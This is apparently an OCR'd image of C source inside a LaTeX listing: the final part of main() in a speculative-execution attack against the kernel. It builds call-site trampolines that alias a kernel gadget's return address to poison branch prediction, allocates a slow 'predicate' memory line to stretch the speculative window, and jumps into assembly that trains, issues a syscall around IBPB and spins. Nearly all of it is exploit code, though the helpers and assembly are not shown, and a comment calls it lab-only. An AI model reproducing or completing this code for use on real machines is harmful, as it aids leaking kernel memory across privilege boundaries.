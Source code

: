 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
    // Parse GVA of shared probe from command-line
    __pbinc_probe_shared = strtoull(argv[1], NULL, 16);

    ////////////////////////////////////////////
    // 3. Build CALLSITE trampolines that alias the kernel gadget
    ////////////////////////////////////////////
    // This fills __alias_tbl[] with entry points to hand-crafted callsite stubs (trampoline calls)
    // Each one has a return address that collides with the kernel gadget's class
    (void)pbinc_create_trampolines(__pbinc_kernel_gadget_addr);

    ////////////////////////////////////////////
    // 4. Allocate lab-only memory to act as a cold read for delayed branch resolution
    ////////////////////////////////////////////
    // The address will be read from inside the ".do_branch" block in pbinc.asm
    // It must be slow (ideally cold L3 or fault-suppressed) to prolong speculative window
    void *slow = aligned_alloc(4096, 4096); // Aligned for page granularity
    if (!slow) { perror("alloc slow"); exit(1); }
    __slow_predicate_ptr = (uint64_t)slow; // Patch the ASM-visible symbol

    ////////////////////////////////////////////
    // 5. Jump into ASM:
    // [1] Transiently train -> [2] Syscall (IBPB) -> [3] Spin loop
    ////////////////////////////////////////////
    pbinc_entry(); // This does not return
    return 0;
}
\end{lstlisting}
\end{document}
